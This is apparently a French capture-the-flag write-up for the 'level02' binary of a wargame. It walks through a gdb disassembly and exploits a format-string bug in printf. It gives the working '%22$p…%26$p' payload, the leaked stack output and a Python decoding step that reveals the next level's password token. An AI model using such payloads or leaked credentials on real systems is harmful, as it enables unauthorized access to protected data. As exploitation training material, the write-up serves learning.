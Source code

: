 # Analyse

## Binaire

`./level02`
```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
`test`
```
--[ Password:
```
`test`
```
*****************************************
test does not have access!
```
## Gdb

`info function`
```asm
[...]
  0x0000000000400814  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x0000000000400814 <+0>:	push   rbp
   0x0000000000400815 <+1>:	mov    rbp,rsp
   0x0000000000400818 <+4>:	sub    rsp,0x120                        ; 120 octets pout la stack
   0x000000000040081f <+11>:	mov    DWORD PTR [rbp-0x114],edi      ; argc
   0x0000000000400825 <+17>:	mov    QWORD PTR [rbp-0x120],rsi      ; argv
   0x000000000040082c <+24>:	lea    rdx,[rbp-0x70]                 ; buffer_a  @ rbp - 0x70
   0x0000000000400830 <+28>:	mov    eax,0x0
   0x0000000000400835 <+33>:	mov    ecx,0xc
   0x000000000040083a <+38>:	mov    rdi,rdx
   0x000000000040083d <+41>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_a, 0, 12);
   0x0000000000400840 <+44>:	mov    rdx,rdi
   0x0000000000400843 <+47>:	mov    DWORD PTR [rdx],eax
   0x0000000000400845 <+49>:	add    rdx,0x4
   0x0000000000400849 <+53>:	lea    rdx,[rbp-0xa0]                 ; buffer_b  @ rbp - 0xa0
   0x0000000000400850 <+60>:	mov    eax,0x0
   0x0000000000400855 <+65>:	mov    ecx,0x5
   0x000000000040085a <+70>:	mov    rdi,rdx
   0x000000000040085d <+73>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_b, 0, 5);
   0x0000000000400860 <+76>:	mov    rdx,rdi
   0x0000000000400863 <+79>:	mov    BYTE PTR [rdx],al
   0x0000000000400865 <+81>:	add    rdx,0x1
   0x0000000000400869 <+85>:	lea    rdx,[rbp-0x110]                ; buffer_c  @ rbp - 0x110
   0x0000000000400870 <+92>:	mov    eax,0x0
   0x0000000000400875 <+97>:	mov    ecx,0xc
   0x000000000040087a <+102>:	mov    rdi,rdx
   0x000000000040087d <+105>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_c, 0, 12);
   0x0000000000400880 <+108>:	mov    rdx,rdi
   0x0000000000400883 <+111>:	mov    DWORD PTR [rdx],eax
   0x0000000000400885 <+113>:	add    rdx,0x4
   0x0000000000400889 <+117>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000400891 <+125>:	mov    DWORD PTR [rbp-0xc],0x0
   0x0000000000400898 <+132>:	mov    edx,0x400bb0
   0x000000000040089d <+137>:	mov    eax,0x400bb2
   0x00000000004008a2 <+142>:	mov    rsi,rdx
   0x00000000004008a5 <+145>:	mov    rdi,rax
   0x00000000004008a8 <+148>:	call   0x400700 <fopen@plt>           ; fd = fopen("/home/users/level03/.pass", "r");
   0x00000000004008ad <+153>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004008b1 <+157>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004008b6 <+162>:	jne    0x4008e6 <main+210>            ; if fd != 0:  jump à <+210>
   0x00000000004008b8 <+164>:	mov    rax,QWORD PTR [rip+0x200991]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x00000000004008bf <+171>:	mov    rdx,rax
   0x00000000004008c2 <+174>:	mov    eax,0x400bd0
   0x00000000004008c7 <+179>:	mov    rcx,rdx
   0x00000000004008ca <+182>:	mov    edx,0x24
   0x00000000004008cf <+187>:	mov    esi,0x1
   0x00000000004008d4 <+192>:	mov    rdi,rax
   0x00000000004008d7 <+195>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
   0x00000000004008dc <+200>:	mov    edi,0x1
   0x00000000004008e1 <+205>:	call   0x400710 <exit@plt>            ; exit(1);
   0x00000000004008e6 <+210>:	lea    rax,[rbp-0xa0]
   0x00000000004008ed <+217>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004008f1 <+221>:	mov    rcx,rdx
   0x00000000004008f4 <+224>:	mov    edx,0x29
   0x00000000004008f9 <+229>:	mov    esi,0x1
   0x00000000004008fe <+234>:	mov    rdi,rax
   0x0000000000400901 <+237>:	call   0x400690 <fread@plt>           ; b_size = fread(buffer_b, 1, 41, fd);
   0x0000000000400906 <+242>:	mov    DWORD PTR [rbp-0xc],eax
   0x0000000000400909 <+245>:	lea    rax,[rbp-0xa0]
   0x0000000000400910 <+252>:	mov    esi,0x400bf5
   0x0000000000400915 <+257>:	mov    rdi,rax
   0x0000000000400918 <+260>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_b, "\n);
   0x000000000040091d <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0  ; buffer_b[index] = 0;
   0x0000000000400925 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
   0x0000000000400929 <+277>:	je     0x40097d <main+361>            ; if b_size == 41:  jump à <+361>
   0x000000000040092b <+279>:	mov    rax,QWORD PTR [rip+0x20091e]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400932 <+286>:	mov    rdx,rax
   0x0000000000400935 <+289>:	mov    eax,0x400bf8
   0x000000000040093a <+294>:	mov    rcx,rdx
   0x000000000040093d <+297>:	mov    edx,0x24
   0x0000000000400942 <+302>:	mov    esi,0x1
   0x0000000000400947 <+307>:	mov    rdi,rax
   0x000000000040094a <+310>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
   0x000000000040094f <+315>:	mov    rax,QWORD PTR [rip+0x2008fa]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400956 <+322>:	mov    rdx,rax
   0x0000000000400959 <+325>:	mov    eax,0x400bf8
   0x000000000040095e <+330>:	mov    rcx,rdx
   0x0000000000400961 <+333>:	mov    edx,0x24
   0x0000000000400966 <+338>:	mov    esi,0x1
   0x000000000040096b <+343>:	mov    rdi,rax
   0x000000000040096e <+346>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
   0x0000000000400973 <+351>:	mov    edi,0x1
   0x0000000000400978 <+356>:	call   0x400710 <exit@plt>            ; exit(1);
   0x000000000040097d <+361>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400981 <+365>:	mov    rdi,rax
   0x0000000000400984 <+368>:	call   0x4006a0 <fclose@plt>          ; fclose(fd);
   0x0000000000400989 <+373>:	mov    edi,0x400c20
   0x000000000040098e <+378>:	call   0x400680 <puts@plt>            ; puts("===== [ Secure Access System v1.0 ] =====");
   0x0000000000400993 <+383>:	mov    edi,0x400c50
   0x0000000000400998 <+388>:	call   0x400680 <puts@plt>            ; puts("/***************************************\\");
   0x000000000040099d <+393>:	mov    edi,0x400c80
   0x00000000004009a2 <+398>:	call   0x400680 <puts@plt>            ; puts("| You must login to access this system. |");
   0x00000000004009a7 <+403>:	mov    edi,0x400cb0
   0x00000000004009ac <+408>:	call   0x400680 <puts@plt>            ; puts("\\**************************************/");
   0x00000000004009b1 <+413>:	mov    eax,0x400cd9
   0x00000000004009b6 <+418>:	mov    rdi,rax
   0x00000000004009b9 <+421>:	mov    eax,0x0
   0x00000000004009be <+426>:	call   0x4006c0 <printf@plt>          ; printf("--[ Username: ");
   0x00000000004009c3 <+431>:	mov    rax,QWORD PTR [rip+0x20087e]        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x00000000004009ca <+438>:	mov    rdx,rax
   0x00000000004009cd <+441>:	lea    rax,[rbp-0x70]
   0x00000000004009d1 <+445>:	mov    esi,0x64
   0x00000000004009d6 <+450>:	mov    rdi,rax
   0x00000000004009d9 <+453>:	call   0x4006f0 <fgets@plt>           ; fgets(buffer_a, 100, stdin);
   0x00000000004009de <+458>:	lea    rax,[rbp-0x70]
   0x00000000004009e2 <+462>:	mov    esi,0x400bf5
   0x00000000004009e7 <+467>:	mov    rdi,rax
   0x00000000004009ea <+470>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_a, "\n");
   0x00000000004009ef <+475>:	mov    BYTE PTR [rbp+rax*1-0x70],0x0  ; buffer_a[index] = 0;
   0x00000000004009f4 <+480>:	mov    eax,0x400ce8
   0x00000000004009f9 <+485>:	mov    rdi,rax
   0x00000000004009fc <+488>:	mov    eax,0x0
   0x0000000000400a01 <+493>:	call   0x4006c0 <printf@plt>          ; printf("--[ Password: ");
   0x0000000000400a06 <+498>:	mov    rax,QWORD PTR [rip+0x20083b]        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x0000000000400a0d <+505>:	mov    rdx,rax
   0x0000000000400a10 <+508>:	lea    rax,[rbp-0x110]
   0x0000000000400a17 <+515>:	mov    esi,0x64
   0x0000000000400a1c <+520>:	mov    rdi,rax
   0x0000000000400a1f <+523>:	call   0x4006f0 <fgets@plt>           ; fgets(buffer_c, 100, stdin);
   0x0000000000400a24 <+528>:	lea    rax,[rbp-0x110]
   0x0000000000400a2b <+535>:	mov    esi,0x400bf5
   0x0000000000400a30 <+540>:	mov    rdi,rax
   0x0000000000400a33 <+543>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_c, "\n");
   0x0000000000400a38 <+548>:	mov    BYTE PTR [rbp+rax*1-0x110],0x0 ; buffer_c[index] = 0;
   0x0000000000400a40 <+556>:	mov    edi,0x400cf8
   0x0000000000400a45 <+561>:	call   0x400680 <puts@plt>            ; puts("*****************************************");
   0x0000000000400a4a <+566>:	lea    rcx,[rbp-0x110]
   0x0000000000400a51 <+573>:	lea    rax,[rbp-0xa0]
   0x0000000000400a58 <+580>:	mov    edx,0x29
   0x0000000000400a5d <+585>:	mov    rsi,rcx
   0x0000000000400a60 <+588>:	mov    rdi,rax
   0x0000000000400a63 <+591>:	call   0x400670 <strncmp@plt>
   0x0000000000400a68 <+596>:	test   eax,eax
   0x0000000000400a6a <+598>:	jne    0x400a96 <main+642>            ; if strncmp(buffer_b, buffer_c, 41) != 0:  jump <+642>
   0x0000000000400a6c <+600>:	mov    eax,0x400d22
   0x0000000000400a71 <+605>:	lea    rdx,[rbp-0x70]
   0x0000000000400a75 <+609>:	mov    rsi,rdx
   0x0000000000400a78 <+612>:	mov    rdi,rax
   0x0000000000400a7b <+615>:	mov    eax,0x0
   0x0000000000400a80 <+620>:	call   0x4006c0 <printf@plt>          ; printf("Greetings, %s!\n", buffer_a);
   0x0000000000400a85 <+625>:	mov    edi,0x400d32
   0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>          ; system("/bin/sh");
   0x0000000000400a8f <+635>:	mov    eax,0x0
   0x0000000000400a94 <+640>:	leave
   0x0000000000400a95 <+641>:	ret                                   ; return(0);
   0x0000000000400a96 <+642>:	lea    rax,[rbp-0x70]                 ; jump from <+598>
   0x0000000000400a9a <+646>:	mov    rdi,rax
   0x0000000000400a9d <+649>:	mov    eax,0x0
   0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>          ; printf(buffer_a);
   0x0000000000400aa7 <+659>:	mov    edi,0x400d3a
   0x0000000000400aac <+664>:	call   0x400680 <puts@plt>            ; puts(" does not have access!");
   0x0000000000400ab1 <+669>:	mov    edi,0x1
   0x0000000000400ab6 <+674>:	call   0x400710 <exit@plt>            ; exit(1);
End of assembler dump.
```
C'est un binaire 64bits, donc la 'calling convention' est différente d'un binaire 32 bits: on passe les arguments par les registres et non par la stack. (cf. "A.2.1 Calling Conventions", p.123 de la [documentation](https://refspecs.linuxfoundation.org/elf/x86_64-abi-0.99.pdf)).
# Exploit

Le programme attend en input un nom d'utilisateur et un mot de passe, compare le mot de passe avec le contenu du fichier .pass et nous ouvre un shell s'ils sont égaux. Dommage, en passant par gdb on n'a pas les droits pour ouvrir le fichier .pass donc on n'atteint pas la condition.

Par contre, printf à <+654> est vulnérable à un [exploit format string](https://axcheron.github.io/exploit-101-format-strings/) puisqu'il prend uniquement en paramètre le username que nous contrôlons.
On devrait pouvoir afficher ainsi le contenu du fichier .pass qui se trouve sur la stack.
Puisque c'est un binaire 64bits, printf va lire les arguments sur la stack tous les 8 octets et nous savons que le token fait 40 caractères.
Nous allons donc devoir demander 40 / 8 = 5 paramètres à printf pour afficher complètement notre token, reste à savoir à partir de combien de paramètres !

- La stack fait 0x120 = 288 octets
- Le buffer qui nous intéresse se situe à rbp - 0xa0 (160) = rsp + 128
- On devrait tomber sur la zone de la stack qui nous intéresse au 16ème argument (128 / 8)
- Cependant, selon la documentation mentionnée plus haut
  > User-level applications use as integer registers for passing the sequence %rdi, %rsi, %rdx, %rcx, %r8 and %r9
  - printf va donc d'abord chercher ses arguments parmi ces registres avant d'aller les chercher sur la stack !

Notre token devrait donc être affiché par printf à partir du 22ème argument (128 / 8 + les 6 registres)

`./level02`
```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password:
*****************************************
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d does not have access!
```

Pour finalement décoder notre pass, il faut décoder chaque adresse en ascii et la reverse à cause du boutisme (endianness, [oui oui on dit boutisme en français](https://fr.wikipedia.org/wiki/Boutisme) 😂).

`python`
- `str = "0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d"`
- `''.join([addr.decode('hex')[::-1] for addr in str.split("0x")])`
  ```
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  ```
